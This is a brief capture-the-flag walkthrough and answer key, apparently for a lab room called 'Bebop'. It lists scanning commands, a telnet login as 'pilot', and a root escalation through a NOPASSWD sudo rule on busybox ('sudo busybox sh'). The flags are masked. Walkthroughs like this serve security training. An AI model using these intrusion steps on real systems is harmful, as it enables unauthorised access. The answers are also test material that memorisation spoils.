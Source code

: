 # Bebop

- Deploy the machine

	  no answer needed

- What is your codename?

	- `pilot`

- What is the User Flag?

	- `scilla port -target <TARGET_IP>`
	- `nmap -p 22,23 -A <TARGET_IP>`
	- `telnet <TARGET_IP> 23` as `pilot`
	- `ls`
	- `cat user.txt`
	- `**********************`

- What is the Root Flag?

	- `sudo -l`
	- `(root) NOPASSWD: /usr/local/bin/busybox`
	- Visit GTFObins, busybox.
	- `sudo busybox sh`
	- `id`
	- `cat /root/root.txt`
	- `**************************`

- What is the low privilleged user?

	- `pilot`

- What binary was used to escalate privileges?

	- `busybox`

- What service was used to gain an initial shell?

	- `telnet`

- What Operating System does the drone run?

	- `FreeBSD`

- Watch the video.

	  no answer needed


